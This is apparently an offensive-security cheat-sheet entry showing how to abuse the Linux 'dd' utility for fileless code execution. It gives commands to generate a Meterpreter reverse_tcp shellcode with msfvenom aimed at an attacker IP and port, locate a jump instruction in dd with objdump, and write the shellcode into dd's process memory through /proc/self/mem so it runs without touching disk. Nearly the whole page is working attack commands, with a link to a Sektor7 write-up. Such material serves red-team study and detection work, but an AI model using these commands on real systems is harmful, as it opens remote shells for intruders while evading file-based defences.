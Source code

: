 # dd

## 01 - Fileless Code Execution

Generate a shellcode implant.

```
userware@hackware-os:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<attacker_IP> lport=<attacker_PORT> -f c | grep -Eo "\\\\x[[:xdigit:]]+" | tr -d "\n"
```

Retrieve the first addresses of `dd` program.

```
$ setarch x86_64 -R dd if=/proc/self/maps 2>/dev/null | grep /bin/dd
555555554000-555555556000 r--p 00000000 08:01 786821                     /usr/bin/dd
..[omitted]..
```

Dump the program to retrieve the assembly instructions. We'll take the `jmp` operator with the address `6753`.

```
$ objdump -Mintel -d $(which dd) | grep fclose                                  
0000000000002170 <fclose@plt>:
    671a:       e8 51 ba ff ff          call   2170 <fclose@plt>
    6753:       e9 18 ba ff ff          jmp    2170 <fclose@plt>
```

Then we execute in the target with the shellcode through memory.

```
$ echo -en "<shellcode>" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 555555554000 + 0x6753 )) conv=notrunc 10<&0 11<&1
```

---
## References

### Sektor7

- [Sektor7: Pure In-Memory (Shell)Code Injection In Linux Userland](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)